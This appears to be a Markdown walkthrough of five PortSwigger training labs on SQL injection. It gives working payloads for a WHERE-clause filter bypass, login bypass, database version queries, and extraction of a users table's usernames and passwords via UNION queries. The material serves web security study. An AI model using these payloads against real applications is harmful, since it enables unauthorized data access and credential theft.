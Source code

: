 # Laboratorio 1
## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Modify the **category** parameter, giving it the value 
```
'+or+1=1--
```
3. Submit the request, and verify that the response now contains one or more unreleased products.
# Laboratorio 2
## SQL injection vulnerability allowing login bypass
1. Use Burp Suite to intercept and modify the request.
2. Modify the **username** parameter, giving it the value:
```
administrator'--
```
# Laboratorio 3
## SQL injection attack, quering the database type and version on Oracle
To know the database version string, we must know that on Oracle databases every SELECT statement must specify a table to select FROM. If our UNION SELECT attack does not query from a table, we will still need to include the FROM keyword followed by a valid table name. 
There is a built-in table on Oracle called **dual** which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual

1. Use Burp Suite to intercept and modify the request that sets the product category filter. 
2. Determine the **number of columns that are being return by the query** and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using payload like the following in the category parameter:
```
'+union+select+'abc','def'+from+dual--
```
3. Use the following payload to display the database version:
```
'+union+select+banner,+null+from+v$version'--
```

# Laboratorio 4
## SQL injection attack, querying the database type and version on MySQL and Microsoft
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:
```
'+union+select+'abc','def'#
```
3. Use the following payload to display the database version:
```
'+union+select+@@version,+null#
```

# Laboratorio 5
## SQL injection attack, listing the database contents on non-Oracle databases
The app has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:
    
    `'+UNION+SELECT+'abc','def'--`
3. Use the following payload to retrieve the list of tables in the database:
	`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
	`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_upbbxi'--`
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
	`'+UNION+SELECT+username_hkylvs,+password_ixaley+FROM+users_upbbxi--`
8. Find the password for the `administrator` user, and use it to log in.